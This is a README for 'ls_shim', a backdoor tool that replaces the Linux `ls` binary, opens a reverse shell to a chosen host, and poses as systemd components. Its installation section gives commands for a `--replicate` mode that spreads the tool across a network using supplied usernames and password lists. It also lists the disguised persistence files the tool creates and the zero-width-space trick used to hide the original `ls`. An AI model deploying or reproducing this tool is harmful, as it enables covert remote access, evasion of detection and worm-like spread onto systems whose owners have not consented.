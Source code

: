 # ls_shim

Tool that shims the `ls` binary and establishes a reverse shell with a specified host. This tool disguises itself as the `ls` binary as well as part of `systemd`.

## Dependencies

To run this project, you will need to have `golang` installed.
You can run `deploy/dependencies.sh` to install this automatically, or
run the commands below based on your distro:

Ubuntu/Debian
```bash
apt-get install golang-go
```
CentOS/RHEL
```bash
yum install golang
```
Arch
```bash
pacman -S go
```

## Installation

To install this project, simply run the `install.sh` script as root. You may also optionally supply the `--replicate` flag to have ls_shim install itself onto every other device on the network..Any parameters following `--replicate` will be passed to `deploy.go`. Please see the `deploy/readme.md` for more information on deployment arguments. Examples:

```bash
#Basic install
./install.sh

#Install with replication
#This will install on the remote system, and run deploy.go with default parameters: -u whiteteam -p whiteteam -m
./install.sh --replicate

#Installation examples with custom replication parameters
./install.sh --replicate -u jsmith -p foo -v
./install.sh --replicate -u jsmith --password-list foo,bar,hi -m
```


## Files created/modified

This project will create the following files:
```
/usr/bin/systemd-make
/usr/bin/systemd-restart
/usr/sbin/grub-display
/var/run/systemd.pid
```

In addition to these files, the installation will replace the `ls` binary with the compiled result from `ls_over.go`, and rename the `ls` binary to have a zero-width space in its filename.

